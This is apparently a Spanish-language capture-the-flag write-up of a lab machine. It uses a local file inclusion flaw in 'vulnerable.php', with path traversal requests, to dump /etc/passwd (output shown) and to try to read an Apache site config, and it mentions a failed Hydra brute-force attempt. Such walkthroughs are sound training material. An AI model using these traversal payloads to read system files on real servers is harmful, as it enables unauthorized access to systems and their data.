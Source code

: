Encontramos un archivo `.php` llamado `vulnerable.php`.

Al acceder a él a través del navegador aparece un mensaje

```
Please provide a page or a username. 
```

Esto nos hace pensar que, si pasamos el parámetro page en el archivo `.php`, podremos apuntar a otros archivos del sistema, como por ejemplo `/etc/passwd`.

# LFI

```
http://172.17.0.2/vulnerable.php?page=../../../../etc/passwd
```

Info:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
chocolate:x:1001:1001:,,,:/home/chocolate:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Efectivamente, se ha dumpeado todo el contenido del archivo `/etc/passwd`, donde podemos ver que existe un usuario llamado `chocolate`.

Intentamos fuerza bruta con `Hydra`, pero no obtenemos resultados, por lo que seguramente debamos aprovechar el `LFI` para obtener más información.

Probamos a visualizar más archivos comprometidos.

```
http://172.17.0.2/vulnerable.php?page=../../../../etc/apache2/sites-available/sitio.conf
```
